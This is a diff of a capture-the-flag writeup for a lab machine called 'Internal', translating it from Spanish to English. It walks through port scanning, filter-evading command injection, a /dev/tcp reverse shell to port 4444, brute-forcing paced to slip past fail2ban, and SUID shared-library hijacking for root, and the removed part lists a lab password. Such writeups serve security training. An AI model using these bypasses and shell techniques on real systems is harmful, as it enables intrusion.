

Before and after one commit to buda-sys/Buda_Hack_Security, a Markdown page: budahacksecurity_static/uploads/Internal.md, 3 parts joined by grey strips. Shown at 83% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/budahacksecurity_static/uploads/Internal.md
+++ b/budahacksecurity_static/uploads/Internal.md
@@ -1,53 +1,39 @@
 
-# Writeup — Internal
-
-**Hecho por:** buda-sys
-**Fecha:** 25/02/2026
-**Dificultad:** Media
+**Made by:** buda-sys
+**Date:** 25/02/2026
+**Difficulty:** Easy
 
 ---
 
-**Acceso**
+## Description
 
-|Usuario|Contraseña|
-|---|---|
-|vault|Yk8$pZ5@cN4!|
+**Internal** is a machine based on a backup web application. During enumeration, we find a subdomain with a web terminal that allows listing files. Through that input we achieve command injection (RCE) by bypassing the WAF filters to obtain a reverse shell.
 
-**Servicios activos**
+Once inside, we perform internal brute-forcing. Since fail2ban blocks the IP after 3 failed attempts in 60 seconds, we can't use Hydra directly. Using the hidden password vault we found on the system, we create a Bash script to brute-force the `vault` user while respecting the attempt limit.
 
-apache2, ssh, fail2ban
+Finally, to escalate privileges we enumerate SUID binaries and find a vulnerable one to which we apply **Shared Library Hijacking** to obtain a root shell.
 
 ---
 
-## Descripción
-
-**Internal** es una máquina basada en una aplicación web de backups. Al enumerar, encontramos un subdominio con una terminal web que permite listar archivos. A través de ese input logramos inyección de comandos (RCE) evadiendo los filtros del WAF para obtener una reverse shell.
-
-Una vez dentro, realizamos fuerza bruta interna. Como fail2ban bloquea la IP si se realizan 3 intentos fallidos en 60 segundos, no podemos usar Hydra directamente. Utilizando la bóveda de contraseñas oculta que encontramos en el sistema, creamos un script en Bash para hacer fuerza bruta al usuario `vault` respetando el límite de intentos.
-
-Finalmente, para escalar privilegios enumeramos los binarios SUID y encontramos uno vulnerable al que le aplicamos **Shared Library Hijacking** para obtener una shell como root.
-
----
-
-## Cadena de ataque
+## Attack Chain
 
 ```
-Enumeración de puertos
+Port enumeration
         ↓
-Fuzzing de subdominios
+Subdomain fuzzing
         ↓
-Inyección de comandos (bypass de filtros) → Reverse Shell
+Command injection (filter bypass) → Reverse Shell
         ↓
-Fuerza bruta interna (script Bash — bypass fail2ban)
+Internal brute-force (Bash script — fail2ban bypass)
         ↓
-SUID Binary + Shared Library Hijacking → shell root
+SUID Binary + Shared Library Hijacking → root shell
 ```
 
 ---
 
-## Enumeración
+## Enumeration
 
-Empezamos enumerando los puertos abiertos de la máquina objetivo.
+We start by enumerating the open ports on the target machine.
 
 ```bash
 sudo nmap -p- --open -Pn -n -sSVC --min-rate 5000 172.17.0.2
@@ -66,11 +52,11 @@ PORT   STATE SERVICE VERSION
 |_http-title: Did not follow redirect to http://internal.dl/
 ```
 
-Observamos que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos. El puerto 80 nos redirige automáticamente al dominio `internal.dl`, lo que nos revela el dominio sin necesidad de fuerza bruta. Lo agregamos al `/etc/hosts`.
+We observe that ports **22 (SSH)** and **80 (HTTP)** are open. Port 80 automatically redirects us to the domain `internal.dl`, which reveals the domain without needing brute-force. We add it to `/etc/hosts`.
 
 ```bash
 echo "172.17.0.2  internal.dl" | sudo tee -a /etc/hosts
 ```
 
-Al visitar la página web vemos que se trata de un panel de control de copias de seguridad con cifrado.
+Visiting the web page we see it's a backup control panel with encryption.
 
@@ -106,3 +92,3 @@ Al ingresar una ruta en la terminal web, vemos que el sistema la procesa con `ls
 
-Al intentar inyecciones básicas, la aplicación las bloquea. Probamos los operadores `;`, `||`, `&&` y `\n` y todos son rechazados por el WAF.
+When attempting basic injections, the application blocks them. We test the `;`, `||`, `&&` and `\n` operators and all are rejected by the WAF.
 
@@ -150,10 +136,10 @@ Luego lo ejecutamos:
 
-Este payload está **ofuscado** para bypassear los filtros:
+This payload is **obfuscated** to bypass the filters:
 
-- `${IFS}` reemplaza el espacio usando la variable interna del sistema (Internal Field Separator).
-- `ba''sh` parte la palabra `bash` en fragmentos para evadir la lista negra de comandos.
-- `\t` es un tab, que reemplaza los espacios dentro del comando de la reverse shell.
-- `/dev/tcp/172.17.0.1/4444` abre una conexión TCP hacia nuestra máquina en el puerto 4444.
-- `>&` redirige stdout y stderr al socket.
-- `0>&1` redirige stdin, dando una shell interactiva completa.
+- `${IFS}` replaces the space using the system's internal variable (Internal Field Separator).
+- `ba''sh` splits the word `bash` into fragments to evade the command blacklist.
+- `\t` is a tab, which replaces spaces inside the reverse shell command.
+- `/dev/tcp/172.17.0.1/4444` opens a TCP connection to our machine on port 4444.
+- `>&` redirects stdout and stderr to the socket.
+- `0>&1` redirects stdin, giving a fully interactive shell.
 
````
Also changed, not shown: other parts of budahacksecurity_static/uploads/Internal.md (+88 -88 lines).
